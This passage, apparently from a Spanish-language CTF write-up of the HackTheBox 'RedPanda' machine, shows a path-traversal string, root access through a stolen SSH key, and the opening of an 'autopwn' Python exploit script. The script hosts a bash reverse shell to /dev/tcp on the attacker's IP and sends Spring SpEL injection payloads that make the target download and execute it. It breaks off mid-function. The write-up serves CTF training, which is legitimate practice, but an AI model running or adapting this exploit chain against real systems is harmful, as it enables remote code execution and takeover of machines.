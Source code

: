 ```String fullpath = "/opt/panda_search/src/main/resources/static/../../../../../../../../tmp/gato.jpg;``` 

Ya finalmente, copiando esta clave en un archivo *id_rsa* y dándole permisos 600 (chmod 600 id_rsa) nos podremos conectar como *root* a la máquina víctima.

<img src="/photos/2022-09-26-RedPanda-WriteUp/rootShell.png" alt="drawing"  />

Y ya podremos visualizar la *flag de root*.

<img src="/photos/2022-09-26-RedPanda-WriteUp/rootflag.png" alt="drawing"  />


##  Autopwn script 

Como extra, he creado un *script* *Autopwn* que automatiza toda la intrusión y toda la escalada, depositando en un archivo id_rsa la clave ssh privada de root. Simplemente le tienes que especificar tu ip de la forma ```python3 autopwn.py 10.10.14.8```

```python
#!/usr/bin/python3 

from pwn import *
import os,socketserver,http.server,signal,sys,requests,pdb, threading

#Ctrl+C
def def_handler(sig, frame):
    print("[!] Salindo...")
    sys.exit(1)

signal.signal(signal.SIGINT,def_handler)

#Variables globales 
url="http://10.10.11.170:8080/search"
ip = ''

def runHTTPServer():
    PORT = 80
    Handler = http.server.SimpleHTTPRequestHandler
    httpd = socketserver.TCPServer(("", PORT), Handler)
    httpd.serve_forever()

def indexcreate():
    f = open("index.html", "w")
    f.write(f"bash -i >& /dev/tcp/{ip}/443 0>&1")
    f.close()


def makeRequest():
    post_data = {
        "name":"*{T(java.lang.Runtime).getRuntime().exec('wget 10.10.14.12 -O index.html')}"
    }

    r = requests.post(url, data=post_data) 

    post_data = {
        "name": "*{T(java.lang.Runtime).getRuntime().exec('bash index.html')}"
    }

    r = requests.post(url,data=post_data)

def createfiles():

    #Creating malicious photo
```